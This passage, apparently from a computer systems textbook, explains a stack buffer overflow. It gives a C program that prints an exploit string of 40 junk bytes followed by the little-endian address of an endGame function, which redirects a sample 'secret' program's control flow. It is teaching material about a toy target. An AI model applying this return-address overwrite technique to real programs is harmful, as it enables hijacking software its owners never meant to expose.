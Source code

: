 ![exploit](_images/finalExploit.png)
:::

::: title
Figure 4. A sample string that can force secret to execute the endGame
function
:::
:::

::: paragraph
Essentially, there are 40 bytes of junk values followed by the return
address. Again, since x86-64 is a
[little-endian](../C4-Binary/byte_order.html#_integer_byte_order){.page}
system the bytes in the return address appear to be in reverse order.
:::

::: paragraph
The following program illustrates how an attacker could construct the
preceding exploit:
:::

::: listingblock
::: content
``` {.highlightjs .highlight}
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
"\xda\x06\x40\x00\x00\x00\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```